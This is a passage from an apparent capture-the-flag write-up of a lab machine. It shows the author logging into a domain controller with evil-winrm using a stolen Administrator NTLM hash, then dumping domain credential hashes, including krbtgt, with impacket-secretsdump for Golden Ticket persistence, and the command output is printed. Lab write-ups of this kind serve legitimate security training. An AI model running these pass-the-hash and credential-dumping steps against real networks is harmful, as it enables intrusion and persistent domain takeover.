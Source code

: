 I used `evil-winrm` to log into `dc01.haze.htb` as the Domain Administrator, using this NTLM hash.
```
fcoomans@kali:~/htb/haze$ evil-winrm -i dc01.haze.htb -u Administrator -H 06dc954d32cb91ac2831d67e3e12027f

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
haze\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.11.61
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```

### Post Exploitation

#### impacket-secretsdump

To completely compromise the domain, I also ran `impacket-secretsdump` to dump the very important `krbtgt` NTLM hash.  
This hash can be used to generate Golden Tickets and grants persistent Domain Compromise even if all other user passwords are changed.
```
fcoomans@kali:~/htb/haze$ impacket-secretsdump -hashes :06dc954d32cb91ac2831d67e3e12027f -just-dc "HAZE/Administrator@10.10.11.61"
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:06dc954d32cb91ac2831d67e3e12027f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:937e28202a6cdfcc556d1b677bcbe82c:::
<SNIP>
[*] Cleaning up...
```

#### root.txt flag
